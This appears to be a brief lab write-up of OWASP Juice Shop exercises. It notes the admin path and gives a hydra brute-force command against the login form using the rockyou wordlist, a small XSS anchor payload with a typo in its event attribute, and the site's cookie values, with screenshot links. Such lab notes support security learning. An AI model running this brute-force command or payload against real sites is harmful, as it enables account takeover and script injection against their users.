 1-	The admin path  (https://juiceshop.herokuapp.com/#/administration)  
![{C5EB1965-CD9A-44E5-AD11-74A08718781B}](https://github.com/user-attachments/assets/1516fbdb-efe2-4b2e-a878-2ff7e3905850)



2-(hydra -l admin@juice-sh.op -P  /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form  
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F 


![image](https://github.com/user-attachments/assets/61580b47-9d74-4394-80ea-ac97513c2b9a)


3-(<a href=”#”  oneclick=”alert(‘XSS’)”> OFFERS!!! </a)
![image](https://github.com/user-attachments/assets/3bd63a29-c1a5-4edf-b64b-1f12cad7397b)

4-The cookie: 
(language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss) 
![image](https://github.com/user-attachments/assets/9eba5710-81ae-45e5-99b4-eeb9b052e58f)


